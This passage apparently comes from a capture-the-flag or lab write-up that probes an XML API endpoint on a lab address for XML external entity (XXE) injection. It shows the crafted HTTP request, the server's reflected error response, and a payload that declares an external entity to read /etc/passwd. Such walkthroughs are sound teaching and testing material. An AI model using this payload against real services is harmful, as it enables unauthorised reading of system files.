 Let's first try XXE attack

Since XML uses the format 

```bash
<data>{content}</data>
```

Let's try to inject ID and check if it takes that as parameter

```xml
POST /api/user/?xml HTTP/1.1
Host: 10.10.172.104
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Content-Type: application/xml
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
dnt: 1
sec-gpc: 1
Connection: close
Content-Length: 69

<?xml version="1.0" encoding="UTF-8"?>
<data>
	<id>1 </id>
</data>
```

This gives

```xml
HTTP/1.1 401 Unauthorized
Date: Fri, 26 Feb 2021 10:31:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 93
Connection: close
Content-Type: application/xml; charset=utf-8

<?xml version="1.0"?>
<data><error>You do not have access to view user id: 1 </error></data>
```

So ID is reflected. Let's try to read some files. Just the patload is written onwards.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
	<id>&xxe;</id>
</data>
```
